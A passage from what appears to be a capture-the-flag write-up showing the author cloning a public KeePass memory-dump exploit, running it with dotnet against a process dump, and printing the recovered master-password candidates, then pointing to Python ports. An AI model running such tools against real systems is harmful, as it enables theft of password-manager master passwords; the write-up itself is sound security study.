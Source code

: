 

The `-v $(pwd):/data` will mount the current directory (where the dump
is) into the container in `/data`. I'll clone the exploit and go into
that directory:



    root@8af1c7b7c189:/# git clone https://github.com/vdohney/keepass-password-dumper
    Cloning into 'keepass-password-dumper'...
    remote: Enumerating objects: 111, done.
    remote: Counting objects: 100% (111/111), done.
    remote: Compressing objects: 100% (79/79), done.
    remote: Total 111 (delta 61), reused 67 (delta 28), pack-reused 0
    Receiving objects: 100% (111/111), 200.08 KiB | 4.55 MiB/s, done.
    Resolving deltas: 100% (61/61), done.
    root@8af1c7b7c189:/# cd keepass-password-dumper/
    root@8af1c7b7c189:/keepass-password-dumper#



Now the exploit runs fine:



    root@8af1c7b7c189:/keepass-password-dumper# dotnet run /data/KeePassDumpFull.dmp 
    ...[snip]...
    Password candidates (character positions):
    Unknown characters are displayed as "●"
    1.:     ●
    2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
    3.:     d, 
    4.:     g, 
    5.:     r, 
    6.:     ø, 
    7.:     d, 
    8.:      , 
    9.:     m, 
    10.:    e, 
    11.:    d, 
    12.:     , 
    13.:    f, 
    14.:    l, 
    15.:    ø, 
    16.:    d, 
    17.:    e, 
    Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde



That's the same output as above.

#### Exploit with Python

Since the release of Keeper, many Python versions of this exploit have
come out. I had a hard time finding one that worked as nicely as the
DotNet version. For example, [this
one](https://github.com/z-jxy/keepass_dump) will get most of the
password:
